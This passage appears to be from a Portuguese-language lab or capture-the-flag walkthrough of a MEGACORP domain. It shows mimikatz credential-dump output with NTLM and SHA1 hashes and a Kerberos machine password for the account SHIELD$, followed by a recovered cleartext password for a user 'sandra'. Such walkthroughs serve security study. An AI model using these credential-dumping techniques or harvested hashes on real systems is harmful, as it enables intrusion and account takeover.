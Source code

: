```cmd
Logon Server      : (null)
Logon Time        : 9/7/2021 5:14:07 PM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : SHIELD$
         * Domain   : MEGACORP
         * NTLM     : 9d4feee71a4f411bf92a86b523d64437
         * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
        tspkg :
        wdigest :
         * Username : SHIELD$
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : SHIELD$
         * Domain   : MEGACORP.LOCAL
         * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
        ssp :
        credman :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : SHIELD$
Domain            : MEGACORP
Logon Server      : (null)
Logon Time        : 9/7/2021 5:14:07 PM
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : SHIELD$
         * Domain   : MEGACORP
         * Password : (null)
        kerberos :
         * Username : shield$
         * Domain   : MEGACORP.LOCAL
         * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
        ssp :
        credman :

mimikatz # 
```
E entre os dados do dump, conseguimos as seguintes credenciais:

```cmd
        kerberos :
         * Username : sandra
         * Domain   : MEGACORP.LOCAL
         * Password : Password1234!
```
